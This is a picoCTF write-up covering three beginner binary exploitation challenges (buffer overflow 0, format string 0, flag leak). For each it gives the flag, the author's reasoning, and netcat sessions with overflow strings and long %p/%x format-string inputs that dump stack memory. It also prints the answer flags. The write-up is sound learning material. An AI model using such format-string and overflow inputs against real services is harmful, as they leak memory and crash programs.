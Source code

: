 ## 1. buffer overflow 0

### **Flag-**    
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

### **Thought Process-**      
> I just read the c program and the challenge itself gave the clue that I had to buffer overflow in order to get the flag and I got it. I had to atleast input 20 bytes
  of string to get the flag because though the buffer `buf2` is of 16 bytes but the return address is of 4 bytes hence I required atleast 20 bytes of data to make the
  program to jump to `sigsegv_handler` to get the flag. 

### **Working-**     
```bash
 nc saturn.picoctf.net 51209
Input: aefasjedfbnwpiusfgnhbasuiogbfiawsuefgbwyuoatefybawsiuefgawuifgebaweuoeyfbawsuifgvbaseufbnawuioyfgbwaOUEBFTGVAWIOUFTGBAWIUEFBAWIFEBWAISEFBWouiebfawoupeftgbawI(Ueghft9wpUHEF8AW7EGFBAWIEUEFGWaurfhbaw97ufhbawiuyerfhbaweiuughfw
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## 2. format string 0

### **Flag-**    
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

### **Thought Process-**     
> It was sort of similar to the 1st challenge, after going through the program I understood here also I had to buffer overflow.

### **Working-**    
```bash
 nc mimas.picoctf.net 61152
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Pe20021560_Portobellosdijhfbvsuydfobsdiyfbgsiyuefbsdyfbsuydfbsidjfbsduiyfbsidfvbsdfbn
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## 3. flag leak

### **Flag-**
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

### **Thought Process-**
> Here the vulnerability was because of `printf` statement because while printing it responds to certain format specifiers such as %p(to read addresses on the stack), 
  %s(To read the contents of strings stored at certain memory locations), %x(To print data in hexadecimal format). I tried combinations of all these specifiers to get the flag directly but it was getting difficult 
  to find out the flag address so directly used `%x` to get the hexadecmal values and find out the data by converting the hex data to ASCII. After several tries and observations I was able to find out the addrss 
  and the flag.

### **Working-**     
```bash
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p %p %p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p
Here's a story -
0xff9adf80
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xff8b6be00xff8b6c000x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x68521800(nil)0xed6649900x804c0000x8049410(nil)0x804c0000xff8b6cc80x80494180x20xff8b6d740xff8b6d80(nil)0xff8b6ce0(nil)(nil)0xed45aed5
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xfff5e9600xfff5e9800x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x277025270x252770250x702527700x277025270x252770250x702527700x7025270x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x39666900(nil)0xf45d49900x804c000'0x8049410'(nil)'0x804c000'0xfff5ea48'0x8049418'0x2'0xfff5eaf4'0xfff5eb00'(nil)
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xffc315d00xffc315f00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x252770250x702527700x277025270x252770250x702527700x277025270x252770250x702527700x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x702527'0x6f636970'0x7b465443'0x6b34334c'0x5f676e31'0x67346c46'0x6666305f'0x3474535f'0x315f6b63'0x62326131'0x7d613235'0xfbad2000'0xc8709f00'(nil)'0xe801b990'0x804c000
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x
Here's a story -
ff851200ff8512208049346782578257825782578257825782578257825782578257825782578257825782578257825782578253f78253f253f782578253f783f78253f253f782578253f783f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?78253f?6f636970?7b465443?6b34334c?5f676e31?67346c46?6666305f?3474535f?315f6b63?62326131?7d613235?fbad2000?29d9a000?0?e99d4990
```

### **Tool-**      
![Rapid_Tables](/Images/picoCTF_flag_leak.png)

Here I figured out that I had to rearrange the flag as at the end of the flag `{` this should be there but I was shifted this helped to figure out the shifting.
